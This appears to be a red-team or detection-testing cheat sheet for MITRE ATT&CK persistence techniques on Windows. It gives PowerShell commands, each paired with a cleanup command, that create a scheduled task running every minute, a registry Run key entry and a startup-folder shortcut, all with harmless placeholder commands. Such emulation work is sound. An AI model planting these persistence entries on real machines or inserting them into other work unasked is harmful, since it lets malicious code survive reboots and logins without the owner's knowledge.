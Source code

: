 # TA0003 - Persistence

*- maintaining access.*

## T1053.005 - Scheduled Task/Job: Scheduled Task

- Execute `$cmd` every minute.
    - Attack:
        ```ps1
        $cmd = "taskschd.msc"
        SCHTASKS /Create /F /SC MINUTE /MO 1 /TN poc /TR $cmd
        ```
    - Cleanup:
        ```ps1
        SCHTASKS /Delete /F /TN poc
        ```

## T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder

- Execute `$cmd` (via registry run key) when current user logins.
    - Attack:
        ```ps1
        $cmd = "PowerShell -NoExit -Command REG QUERY HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
        REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc /D $cmd
        ```
    - Cleanup:
        ```ps1
        REG DELETE HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc
        ```

- Execute `$cmd` (via startup folder) when current user logins.
    - Attack:
        ```ps1
        $cmd = "Explorer $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
        $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.Save()
        ```
    - Cleanup:
        ```ps1
        Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
        ```

## Resources

- [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
- [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)
